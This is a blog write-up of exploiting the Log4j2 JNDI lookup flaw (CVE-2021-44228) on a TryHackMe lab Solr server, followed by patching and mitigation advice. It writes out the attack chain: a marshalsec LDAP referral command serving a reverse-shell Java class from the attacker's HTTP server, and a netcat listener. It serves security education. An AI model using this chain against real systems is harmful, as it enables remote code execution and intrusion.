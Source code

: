 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

## What is CVE-2021-44228?

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com).)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand, if your enterprise “black-box” software components use this library or not, and if so, plan and carry out proper risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com) box to test the exploit. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable target computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check, if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to remain silent), and a dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html), as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It works over TCP, let’s check what happens, if we try to catch that connection attempt with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However, this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously, it will mean some kind of Java class(es) / POJO in this case.

The plan is to have an **LDAP relay** or referral server, and a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec) with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented on Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As an webserver, you can use anything handy, we prefer python3 http server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. This is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and copy the class into the python webserver directory. Do not forget that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

Run the listener, which will accept the reverse connection, and *fingers crossed*.

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everything ready.

<iframe width="700" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy it is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall) with proper string filtering, analyse activities, log files and traces. There are a couple online services (e.g. [Trendmicro](https://log4j-tester.trendmicro.com)), which provide remote checks of these threats. We do not recommend these, only if you can truly trust in them.
